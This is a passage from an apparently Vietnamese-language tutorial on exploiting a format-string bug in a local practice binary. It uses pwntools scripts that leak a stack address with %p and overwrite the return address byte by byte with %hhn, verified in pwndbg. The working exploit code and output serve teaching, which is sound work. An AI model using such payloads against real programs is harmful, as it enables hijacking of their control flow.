Đã có khoảng cách cần thiết để tìm địa chỉ trỏ tới return address, có thể tạm gọi là `addr_of_ret`

> Mình chỉ lo các bạn mới học không hiểu mình viết gì thôi :| 


Bắt đầu viết script pwntools để tìm ra được địa chỉ trỏ tới return address

```python
from pwn import *
p = process('./read')

payload1 = b'%12$p'
p.sendline(payload1)
data = p.recvline()

t = str(data)
d = t[2:16]
o = int(d, 16)
v = o - 0x98

addr_of_ret = v
print('addr of ret:', hex(addr_of_ret))
p.interactive()
```

Chạy script:
```shell
[x] Starting local process './read'
[+] Starting local process './read': pid 73316
addr of ret: 0x7fff98d2e6d8
[*] Switching to interactive mode
```

Đã leak thành công địa chỉ trỏ tới return address

Giờ ta cần ghi đè địa chỉ trả về để bẻ hướng chương trình.
* (Bài này mình làm để demo, lúc đầu mình không nghĩ là sẽ để thêm hàm print_flag cho tiện, dù sao cũng đã viết đến đây rồi nên mình sẽ lấy luôn địa chỉ trỏ tới return address, ghi đè return address bằng chính nó luôn)

Tiếp đó cần làm sao để đưa `addr_of_ret` vào vùng của `buf`
Cách để căn được địa chỉ đẹp mình đã trình bày ở phía trên

```python
from pwn import *
p = process('./read')

payload1 = b'%12$p'
p.sendline(payload1)
data = p.recvline()

'''chuyển đổi địa chỉ từ dạng rawbytes sang int'''
t = str(data)
d = t[2:16]
o = int(d, 16)
v = o - 0x98

addr_of_ret = v
print('addr of ret:', hex(addr_of_ret))

'''căn chỉnh địa chỉ'''
payload2 = b'A'*2
payload2 += b'.'
payload2 += b'%7$p.'
payload2 += p64(addr_of_ret)
p.sendline(payload2)

p.interactive()
```

```shell
[x] Starting local process './read'
[+] Starting local process './read': pid 80410

[*] Switching to interactive mode

AA.0x7ffed982b018.����
```

Ít kí tự `A`  như vậy sẽ hơi khó để điều chỉnh khi ghi đè. Ta hãy thử thêm kí tự `A`  để đẩy địa chỉ sang vị trí `%8$p`.Với payload hiện tại, thêm đúng 8 kí tự `A` thì tròn 16 byte, sẽ lấp đẩy đủ `%6$p` và `%7$p`. Vừa đủ để địa chỉ nằm gọn trong vị trí `%8$p`

```python
from pwn import *
p = process('./read')

payload1 = b'%12$p'
p.sendline(payload1)
data = p.recvline()

'''chuyển đổi địa chỉ từ dạng rawbytes sang int'''
t = str(data)
d = t[2:16]
o = int(d, 16)
v = o - 0x98

addr_of_ret = v
print('addr of ret:', hex(addr_of_ret))

'''căn chỉnh địa chỉ'''
payload2 = b'A'*10
payload2 += b'.'
payload2 += b'%8$p.'
payload2 += p64(addr_of_ret)
p.sendline(payload2)

p.interactive()
```

```cmd
[x] Starting local process './read'
[+] Starting local process './read': pid 80422

[*] Switching to interactive mode

AAAAAAAAAA.0x7fff944078b8.�x@��
```

Tiếp theo cần sử dụng 1 trick để in ra nhiều kí tự nhưng không chiếm nhiều chỗ trong `buf`

dạng tổng quát:
```
%[flags][width][.precision][length]specifier
```
Cách này giúp chỉ định được số kí tự tối thiểu cần in ra

```python
from pwn import *
p = process('./read')

payload1 = b'%12$p'
p.sendline(payload1)
data = p.recvline()

'''chuyển đổi địa chỉ từ dạng rawbytes sang int'''
t = str(data)
d = t[2:16]
o = int(d, 16)
v = o - 0x98

addr_of_ret = v
print('addr of ret:', hex(addr_of_ret))

'''căn chỉnh địa chỉ'''
payload2 = b'A'*10
payload2 += b'.'
payload2 += b'%8$p.'
payload2 += p64(addr_of_ret)
p.sendline(payload2)

'''thử ghi đè đúng 1 byte'''
payload3 = b'.'
payload3 += b'%8$hhn'
payload3 += b'.'
payload3 += b'A'*7
payload3 += b'.'
payload3 += p64(addr_of_ret)
p.sendline(payload3)

p.interactive()
```

```shell
[x] Starting local process './read'
[+] Starting local process './read': pid 80530
[*] Switching to interactive mode

AAAAAAAAAA.0x7ffc0e5eb088.��^�..AAAAAAA.��^�
```

Gắn pid vào gdb để kiểm tra xem giá trị được ghi đè tại địa chỉ `0x7ffc0e5eb088`

```shell
gdb -p 80530
```
Hoặc vào gdb rồi attach
```shell
khanh@VM-Ubuntu:~/Code/format_string$ gdb 
GNU gdb (Ubuntu 15.0.50.20240403-0ubuntu1) 15.0.50.20240403-git
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
attach pwndbg: loaded 203 pwndbg commands. Type pwndbg [filter] for a list.
pwndbg: created 13 GDB functions (can be used with print/break). Type help function to see them.
------- tip of the day (disable with set show-tips off) -------
GDB's set directories <path> parameter can be used to debug e.g. glibc sources like the malloc/free functions!
pwndbg> attach 80530
```

Kiểm  tra giá trị tại địa chỉ `0x7ffc0e5eb088`

```pwndbg
pwndbg> x/xg 0x7ffc0e5eb088
0x7ffc0e5eb088:	0x00007b8a9602a101
```

Nhận thấy đuôi `01` tức là đã ghi đè 1 byte thành công. Tiếp theo ta xây dựng script để ghi đè hoàn toàn 8 byte

*  (Mọi người thật sự nên dùng hàm sẵn của pwntools thay vì dùng con script lỏ này của mình để ghi đè)
*  Ấn tượng nhất của mình khi tìm hiểu cách tách các byte riêng lẻ ra là lệnh
```python
inject_byte = (addr_of_ret >> 8 * i) & 0xff
```
Lệnh này dịch 8*i bit và sau đó dùng phép `and` để giữ lại 8 bit thấp

```cmd
	      7    f    f    f    f    f    f    f    b    e    e    0
	    0111 1111 1111 1111 1111 1111 1111 1111 1011 0000 1011 1110
	    0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 1111 1111
    AND -----------------------------------------------------------
	    0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 1011 1110
```
Mọi người có thể tìm hiểu về phép dịch bit để hiểu rõ hơn
```python
from pwn import *

p = process('./read')

payload1 = b'%12$p'
p.sendline(payload1)
data = p.recvline()

'''chuyển đổi địa chỉ từ dạng rawbytes sang int'''
t = str(data)
d = t[2:16]
o = int(d, 16)
v = o - 0x98

addr_of_ret = v
print('addr of ret:', hex(addr_of_ret))

'''ghi đè 8 byte'''
for i in range(0, 8):
    inject_byte = (addr_of_ret >> 8 * i) & 0xff
    numA = 16
    if (inject_byte < 10):
        if (inject_byte == 0):
            payload7 = b'%8$hhn'
            payload7 += b'.'
            payload7 += b'A'*(numA - len(payload7) - 1) # tru di 1 vi con dau '.' dang sau 
            payload7 += b'.'
            payload7 += p64(addr_of_ret + i)
            p.sendline(payload7)
        elif (0 < inject_byte < 9):
            #payload7 : AA__A.%8$hhn.AA_A.\x..\x..
            payload7 = b'A'*(inject_byte - len('.')) # AA__A <--
            payload7 += b'.'  # AA__A. <--
            payload7 += b'%8$hhn' # AA__A.%8$hhn <--
            payload7 += b'.' #AA__A.%8$hhn. <--
            payload7 += b'A'*(numA - (inject_byte - len('.')) - len('.%8$hhn..')) # AA__A.%8$hhn.AA_A <-- 
            payload7 += b'.' #AA__A.%8$hhn.AA_A. <--
            payload7 += p64(addr_of_ret + i) # AA__A.%8$hhn.AA_A.\x..\x.. <--
            p.sendline(payload7)
        elif (inject_byte == 9):
            payload7 = b'A'*(inject_byte - len('A') - len('.')) # AA__A <-- bo 1 A vi can chinh du 9 byte
            payload7 += b'.'  # AA__A. <--
            payload7 += b'%8$hhn' # AA__A.%8$hhn <--
            payload7 += b'.' #AA__A.%8$hhn. <--
            payload7 += b'A'*(numA - (inject_byte - len('.')) - len('.%8$hhn..')) # AA__A.%8$hhn.AA_A <-- 
            payload7 += b'.' #AA__A.%8$hhn.AA_A. <--
            payload7 += p64(addr_of_ret + i) # AA__A.%8$hhn.AA_A.\x..\x.. <--
            p.sendline(payload7)

    elif (inject_byte >= 10):
        payload7 = b'A'*(numA - len('.0x%000x.%8$hhn.'))
        payload7 += b'.'
        old_payload7 = payload7
        if (inject_byte < 100):
            payload7 +=  b'0x' + b'%' + b'0' +  str(inject_byte - len(old_payload7) - len('0x') - len('.')).encode() + b'x'
        elif (inject_byte > 99):
            payload7 += b'0x%' + str(inject_byte - len(old_payload7) - len('0x') - len('.')).encode() + b'x'

        payload7 += b'.'
        payload7 += b'%8$hhn'
        payload7 += b'.'
        payload7 += p64(addr_of_ret + i)
        p.sendline(payload7)

p.interactive()
```

```shell
[+] Starting local process './read': pid 81166
addr of ret: 0x7fffa9909698
[*] Switching to interactive mode
.0x                                                                                                                                            2037701d..\x98\x96\x90\xa9\xff\x7f.0x                                                                                                                                          2037701d..\x99\x96\x90\xa9\xff\x7f.0x                                                                                                                                    2037701d..\x9a\x96\x90\xa9\xff\x7f.0x                                                                                                                                                             2037701d..\x9b\x96\x90\xa9\xff\x7f.0x                                                                                                                                                                                                                                                   2037701d..\x9c\x96\x90\xa9\xff\x7f.0x                                                                                                                   2$   

```

Gắn pid vào gdb và kiểm tra 1 lần nữa:

```pwndbg
pwndbg> x/xg 0x7fffa9909698
0x7fffa9909698:	0x00007fffa9909698
pwndbg> 
```

Vậy là đã ghi đè thành công return address bằng chính địa chỉ trỏ đến nó


